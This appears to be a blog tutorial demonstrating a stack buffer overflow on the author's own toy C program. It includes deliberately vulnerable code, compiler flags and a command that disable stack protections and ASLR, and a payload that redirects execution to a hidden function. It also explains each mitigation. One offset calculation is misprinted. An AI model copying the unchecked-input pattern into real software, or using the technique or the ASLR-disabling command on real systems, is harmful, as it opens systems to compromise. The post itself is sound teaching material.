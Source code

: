 ```yaml
---
layout: post
title: "Buffer Overflow"
date: 2022-02-16 17:00:00 +01:00
tags: edb security
---
```


I remember I've tried hard when I was younger to create a super easy example of a buffer overflow.
I read about it and understood the mechanism, but never accomplished writing a real program which demonstrates the effect.

That thought crossed my mind today and I realized I should be able to do it today with a little more experience.

In addition, I found this wonderful article about it:  
[dhavalkapil.com](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

So, I will basically repeat the steps in the article and build my first own buffer overflow program.

# The program

*buffer-overflow.c*

```c
#include <stdio.h>

void secretFunction()
{
    printf("Congratulations!\n");
    printf("You have entered in the secret function!\n");
}

void echo()
{
    char buffer[20];

    printf("Enter some text:\n");
    scanf("%s", buffer);
    printf("You entered: %s\n", buffer);    
}

int main()
{
    echo();

    return 0;
}
```

As you can see, the buffer size remains unchecked and a user can enter more than the expected 20 characters.
This leads to write into parts of the memory the program is not supposed to write.

We will overwrite the RETURN address of the function, which is stored in the stack, in order to execute the secretFunction().

# Compilation

We need to set special compiler flags to disable any security checks.
It is great the compilers today have that built-in checks, but disabling them makes it easier to grasp the concepts
and maybe understand why those checks have been added over time.

```
gcc -m32 -fno-stack-protector -no-pie -zexecstack buffer-overflow.c -o buffer-overflow
```

Run this to disable ASLR (see below):

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

# Running and crashing the program

This works fine:

```
$ ./buffer-overflow 
Enter some text:
Test
You entered: Test
```

A text more than 20 characters crashes the program, as expected:

```
$ ./buffer-overflow
Enter some text:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
fish: Job 1, './buffer-overflow' terminated by signal SIGSEGV (Adressbereichsfehler)
```

Note: It still manages to output the text, before crashing.

# Evan's Debugger

I used to play hundreds of hours with OllyDbg, a debugger for Windows.

During my research and having `gdb` in mind I thought there might be something similar to OllyDbg for Linux.
And indeed there is: [https://github.com/eteran/edb-debugger](https://github.com/eteran/edb-debugger)

I've installed it from [here](https://aur.archlinux.org/packages/edb-debugger), but I needed to change
the plugin directory manually after the installation (Preferences -> Directories -> Plugin Directory: `/usr/lib/edb`).

![]({{ site.baseurl }}/images/2022-02-16-buffer-overflow/edb.png)

# Finding the right address

We don't just want to crash our program, we want to execute the secretFunction().
In order to do that, we need to know it's address.

We can either do it in edb (CTRL+ALT+S):

![]({{ site.baseurl }}/images/2022-02-16-buffer-overflow/edb-symbols.png)

or via gdb:

```
$ gdb -batch -ex "info functions" -ex quit ./buffer-overflow
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  puts@plt
0x08049060  __libc_start_main@plt
0x08049070  __isoc99_scanf@plt
0x08049080  _start
0x080490c0  _dl_relocate_static_pie
0x080490d0  __x86.get_pc_thunk.bx
0x080490e0  deregister_tm_clones
0x08049120  register_tm_clones
0x08049160  __do_global_dtors_aux
0x08049190  frame_dummy
0x08049196  secretFunction
0x080491d2  echo
0x08049228  main
0x08049244  __x86.get_pc_thunk.ax
0x08049250  __libc_csu_init
0x080492c0  __libc_csu_fini
0x080492c5  __x86.get_pc_thunk.bp
0x080492cc  _fini
```

# The payload

Now, we need to know where exactly to put the address in our input text.
See the screenshot for details:

![]({{ site.baseurl }}/images/2022-02-16-buffer-overflow/edb-stack.png)

Our variable `buffer` starts at `ffae:ce1c` (marked in blue) in this case.
The return address to the main function is stored at `ffae:ce3c` (marked in green).

If we manage to write the address of our secret function (`0x08049196`) into the return address value, our secret function will be called, instead of returning to the main function.

`0xce3c - 0xce3c = 0x20`, which is 32 in decimal.
We need to write 32 bytes (any bytes) followed by 0x08049196 into the `buffer` variable, and we should reach our goal:
(See [here](https://stackoverflow.com/questions/66258454/printing-non-ascii-characters-in-python3) why we can't use print())

```
$ python -c 'import sys; sys.stdout.buffer.write(b"a"*32 + b"\x96\x91\x04\x08")' | ./buffer-overflow 
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��
Congratulations!
You have entered in the secret function!
fish: Process 17504, './buffer-overflow' from job 1, 'python -c 'import sys; sys.stdo…' terminated by signal SIGSEGV (Adressbereichsfehler)
```

Voilà. Now, the program still crashes, but our secret function was called before!

Next challenge could be to build a payload which contains and executes own code,
instead of executing code which already exists in the binary.

# Security

- Position-independent Code  
  PIE is not a security feature, but a requirement for Address Space Layout Randomization.
  In Windows' .exe files, the information is stored in the `.reloc` table referenced in the optional headers.
  In our example, we explicitly generated **no** PIE information via `-no-pie`.
- Address Space Layout Randomization  
  ASLR moves our program and the stack to random addresses.
  The program can only be moved if PIE is provided.
  The stack can be in a random address even if no PIE is provided.
  In our example, we explicitly disabled ASLR via `/proc/sys/kernel/randomize_va_space`.
  When disabled, our program and the stack are always in the same memory address on each run.
  This way, we can use hard-coded absolute addresses as the return address and as part of the payload,
  which makes our life a lot easier.
- Non-Executable Stack  
  Each memory area is flagged as readable, writable, executable, or a combination of them.
  So when the stack is marked as non-executable (gcc's default), then you will see an error when the RETURN to a stack address is reached.
  In our example, we explicitly marked the stack as executable via `-zexecstack`.
- Stack Protection  
  > Emit extra code to check for buffer overflows, such as stack smashing attacks. This is done by adding a guard variable to functions with vulnerable objects. This includes functions that call "alloca", and functions with buffers larger than 8 bytes. The guards are initialized when a function is entered and then checked when the function exits. If a guard check fails, an error message is printed and the program exits.

  In our example, we explicitly disabled stack protection via `-fno-stack-protector`.

In the real-world we would need to bypass all of those security measures.
